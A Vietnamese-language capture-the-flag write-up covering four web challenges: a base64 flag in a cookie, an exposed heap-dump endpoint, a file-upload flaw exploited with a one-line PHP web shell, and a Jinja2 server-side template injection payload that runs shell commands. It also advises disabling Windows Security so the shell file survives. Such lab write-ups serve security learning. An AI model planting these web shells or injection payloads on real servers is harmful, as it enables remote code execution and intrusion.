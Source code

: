# Cookie Monster Secret Recipe

<h3> **đề bài**: Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe? You can access the Cookie Monster here and good luck </h3>

**Phân tích**: đề bài có đề cập khá nhiều về `cookie`

        cookie: là các tập dữ liệu nhỏ mà trình duyệt lưu trữ trên máy, dùng để lưu trữ thông tim về các phiên làm việc như: lựa chọn or đăng nhập

**hướng giải**: việc đầu tiên nghĩ đến sẽ làm đọc phần dữ liệu cookie của trang web

**Giải**:
1. ta sử dụng dev tool để đọc phần cookie của trang web như phân tích, do chưa có bất kì dữ liệu nào khi mới đăng nhập vào web, nên thử đăng nhập với tài khoản mật khẩu bất kì để cập nhật thêm cookie cho trang web sau đó đọc tệp cookie đó.
2. ta sẽ thấy được 1 đoạn base64 

![image](https://github.com/user-attachments/assets/7c4fb121-335a-49c4-8311-b06819b21f6e)

3. decode đoạn base64 rồi nộp flag

# head-dump

![image](https://github.com/user-attachments/assets/3d6c6438-bf1c-4002-a84a-8979b00251cc)

1. đề bài nói rằng đây là 1 trang blog bao gồm cả 'API Documentation' khá là đáng ngờ khi chỉ riêng điều này được liệt kê

![image](https://github.com/user-attachments/assets/d9cbce66-0ee1-43dc-9014-613d4b3dccf2)

2. cố gắng truy cập vào cuối trang web khi bấm vào #API Documentation ta sẽ được di chuyển tới 1 trang web khác
3. kéo xuống cuối sẽ có 1 mục 'heap-dump' giống như đề bài 'try it out' -> 'excute' -> tải file trên trang web về rồi `ctrl + f` để tìm flag

# n0s4n1ty 1

![image](https://github.com/user-attachments/assets/91e5a6b3-7f82-402c-8c9f-81bd5fe1987b)
![image](https://github.com/user-attachments/assets/7a6c379d-a600-4c89-a5b1-e24b764ced1b)

1. dựa theo đề bài và hint 1, trang web này là 1 trang web tải lên ảnh đại điện nhưng bị lỗi và các file được gửi lên không được lọc định dạng
2. đây là cơ hội cho ta để thâm nhập vào trang web để đọc flag từ thư mục `/root`
3. ta sẽ bypass trang wep này bằng 1 file `.php`

        php: là một ngôn ngữ lập trình web, các file thường có đuổi `.php`
        ta cần tạo 1 file web shell .php để điều khiển trang web từ xa

4. tạo 1 file text và ghi dòng lệnh `<?php system($_GET['cmd']); ?>` rồi `save as` với đuôi `.php`

        $_GET['cmd'] lấy dữ liệu từ đường link URL.
        system() thực thi lệnh hệ thống trên server.

5. vì đây là 1 file crack trang web, tự như mã độc lên windown security sẽ xóa nó ngay, ta cần tắt đi trước khi tạo
6. upload file này lên trang web sau đó dùng đường link để ghi lệnh `http://expico.com/uploads/shell.php?cmd=sudo ls -l` để liệt kê file trong web
7. rồi cat file flag từ thư mục `root` ra

# SSTI1

![image](https://github.com/user-attachments/assets/50e41e6e-2d21-4f36-8169-8c3255af2fed)

1. `ssti` à viết tắt của Server-Side Template Injection (tấn công chèn mã vào lỗ hổng), đây là 1 lỗ hổng cảu trang web khi xử lý input của người dùng, họ có thể chèn mã độc vào input có thể gây ra nhiều hậu quả
2. dựa vào tên đề bài ta thử trang web bằng cách nhập `{{ 7*7 }}` và trang web trả lại kết quả là 49 => trang web có lỗ hổng và có thể sử dụng các câu lệnh để bypass trang web
3. tiếp theo ta cần kiểm tra trang web xem trang web sử dụng framework nào để dùng câu lệnh của framework đó để bypass
4. ta check bằng devtool của trình duyệt và thấy
![image](https://github.com/user-attachments/assets/096a92f3-6960-4326-aa83-9ba60793bc4e)


           Werkzeug là WSGI toolkit phổ biến được Flask sử dụng.
           Python/3.8.10 cho thấy backend chạy bằng Python.
           Flask mặc định dùng Jinja2 để render templates, nên có thể thử khai thác SSTI. 

5. nhập `{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}` để liệt kê các file

           đây là 1 lệnh thuộc Jinja2
           cycle.__init__.__globals__: cho phép ta truy cập tới biến toàn cục bộ python kể các cac mô dun hệ thống
           os.popen(): mở 1 tiến trình con chạy lệnh shell nhắn thực thi lệnh `ls -la`
           .read(): để đọc ra kết quả

6. rồi cat file flag












